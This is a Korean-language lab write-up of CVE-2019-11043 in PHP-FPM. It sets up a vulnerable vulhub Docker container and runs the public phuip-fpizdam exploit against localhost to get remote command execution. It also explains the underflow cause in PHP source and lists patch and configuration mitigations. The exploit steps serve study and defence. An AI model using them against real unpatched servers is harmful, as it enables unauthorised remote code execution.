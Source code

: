 # CVE-2019-11043

웹서버와 PHP를 연결해주는 기능인 PHP-FPM 에서 취약점 발생
<br>

## 0. 취약한 환경 버전

> PHP FPM 7.1.x ~ 7.1.33 

> PHP FPM 7.2.x ~ 7.2.24

> PHP FPM 7.3.x ~ 7.3.11

<br>

## 1. 환경 구성

> **ubuntu 20.04**
>
> **docker**
>
> **golang**

<br>

> CVE-2019-11043 폴더 생성

```
mkdir CVE-2019-11043
```

<br>

> CVE-2019-11403 폴더 내 도커 파일 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/default.conf
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/docker-compose.yml
```

<br>

> CVE-2019-11043에 하위 폴더 www 생성

```
CVE-2019-11043$ mkdir www
```

<br>

> www폴더 내 인덱스 페이지 다운

```
wget https://raw.githubusercontent.com/vulhub/vulhub/master/php/CVE-2019-11043/www/index.php
```

<br>

> 폴더 내 파일 확인

![1](https://user-images.githubusercontent.com/89399749/144745932-4312a5ca-5e6d-4a93-9be1-08113b5d1b71.png)


<br>

> CVE-2019-11043 폴더에서 컨테이너 생성 및 백그라운드 실행

```
docker-compose up -d
```

![2](https://user-images.githubusercontent.com/89399749/144745941-8b64ec89-11ae-4093-897f-1b031b490eb5.png)




![3](https://user-images.githubusercontent.com/89399749/144745945-c45ceb58-b102-4fb7-ab93-d72718b40d27.png)





> 인덱스 페이지 접속 확인

![4](https://user-images.githubusercontent.com/89399749/144745961-46b75f47-f859-4a5b-8b05-7f0e9aa6c8bb.png)



<br>

## 2. PoC

일반 사용자로 전환

<br>

> golang 설치

```
apt-get install golang
```
<br>


> phuip-fpizdam 다운로드

```
go get github.com/neex/phuip-fpizdam
go install github.com/neex/phuip-fpizdam
```
![5](https://user-images.githubusercontent.com/89399749/144745958-7a2c1862-836f-4e7f-829c-2f80f3575a5c.png)




<br>

> exploit 실행

```
./phuip-fpizdam http://localhost:8080/index.php
```

![6](https://user-images.githubusercontent.com/89399749/144745965-ee18a087-155a-4e45-ad89-93bb11e874b0.png)



<br>

> 원격 명령어 실행

![7](https://user-images.githubusercontent.com/89399749/144745970-5af4bfa2-5661-4622-8279-3e40ab9d56e3.png)



![8](https://user-images.githubusercontent.com/89399749/144745976-a785d5c8-b495-4c53-9394-365c1649e27d.png)




<br>

## 3. 원인 분석

> php 소스코드 중 path_info에 env_path_info의 산술 연산된 값을 넣는 부분이 있는데, 해당 부분에서 연산된 값에 대한 검증이 없어 취약점 발생

```php
if (apache_was_here) {
 path_info = script_path_translated + ptlen;
 tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
   } else {
     path_info = (env_path_info && pilen > slen) ? env_path_info + pilen - slen : NULL;
     tflag = path_info && (orig_path_info != path_info);
   }
```

<br>

> 공격자가 URL과 쿼리 문자열 길이를 정확하게 맞추면, PATH_INFO를 _fcgi_data_seg의 첫번째 바이트(*pos)로 지정할 수 있고, pos에 0이 들어가면, Underflow가 발생

```c++
typedef struct _fcgi_data_seg {
    char                  *pos;
    char                  *end;
    struct _fcgi_data_seg *next;
    char                   data[1];
} fcgi_data_seg;
```

<br>

> 타겟을 대상으로 다수의 요청이 발생되어 공격자는 다수의 요청 중 길이가 맞는 요청값을 통해 취약점이 발생

![9](https://user-images.githubusercontent.com/89399749/144745979-64f03e69-3b0b-47eb-9f8a-3c7b67d688f1.jpg)



<br>

## 4. 대응 방안

> 패치 버전 7.3.11 , 7.2.24 업그레이드

![10](https://user-images.githubusercontent.com/89399749/144745982-77737cd2-8de1-4a85-91b3-9deb176bf074.png)



<br>

>  try_files 포함 혹은 if문을 통한 검증 코드 구현

## 참조

https://qiita.com/shimizukawasaki/items/39d68a7c658dfa50263d

https://github.com/neex/phuip-fpizdam

https://www.hahwul.com/2019/10/28/php7-underflow-rce-vulnerabliity/

https://saltlee.tistory.com/77



